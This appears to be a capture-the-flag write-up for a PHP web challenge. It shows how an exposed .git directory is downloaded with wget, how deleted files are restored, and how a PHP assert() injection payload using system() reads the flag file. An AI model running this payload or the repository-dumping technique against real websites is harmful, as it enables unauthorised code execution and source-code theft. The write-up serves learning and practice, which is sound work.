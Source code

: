 # mfw

![Screenshot from 2021-07-25 09-33-39](https://user-images.githubusercontent.com/87865134/126885810-05db8c07-e99c-420d-bf93-558c6a589a71.png)

## - Hint:
  - web use: *git*, *php*, *bootstrap* -> maybe git disclosure
  - *?page=flag* -> flag may be in here

![Screenshot from 2021-07-25 09-33-50](https://user-images.githubusercontent.com/87865134/126885853-3bce7c1f-9960-4806-8559-5d9fe039d969.png)

![Screenshot from 2021-07-25 09-34-14](https://user-images.githubusercontent.com/87865134/126885855-cc5362ce-14f4-4f1b-8585-18436eb77820.png)

## 1. Check git disclosure
  ```
  http://111.200.241.244:64683/.git/
  ```  
  ![Screenshot from 2021-07-25 09-41-39](https://user-images.githubusercontent.com/87865134/126885895-1f46e63d-2207-4ad7-9330-28bab05b7850.png)

## 2. Download git snapshot to view source code
  - download:   
    ```
    wget -r http://111.200.241.244:64683/.git/
    ``` 
  - after download, check git status:  
    ```
    git status
    ```  
    ![Screenshot from 2021-07-25 09-47-07](https://user-images.githubusercontent.com/87865134/126885993-5e0c3d6b-0e58-411c-9aae-a27c09312884.png)

  - some files are deleted -> restore file:  
     ```
     git restore index.php
     git restore templates
     ```
## 3. View source code
  - **in file flag.php:**  
   ![Screenshot from 2021-07-25 09-49-12](https://user-images.githubusercontent.com/87865134/126886044-9b28b33e-351e-4ce8-b0ac-dcfb33e67784.png)  
    - > Flag maybe here
  
  - **in file index.php:**  
  ![Screenshot from 2021-07-25 09-49-22](https://user-images.githubusercontent.com/87865134/126886041-aa6138af-6cb7-458a-bcd3-153b2c754436.png)  
    - `assert(mixed $assertion, string $description = ?): bool`
      - > -> Command injection

## 4. Command Injection
  - payload: `'.system('cat templates/flag.php').'`  
  ![Screenshot from 2021-07-25 09-57-12](https://user-images.githubusercontent.com/87865134/126886172-af5e8afc-3fe3-4754-b7bf-d8d1fba82e3b.png)

   
## - Decription:
  - > **category**: 
    - Git disclosure
    - Command Injection

## - Reference:
  - [assert()](https://www.php.net/manual/en/function.assert.php)
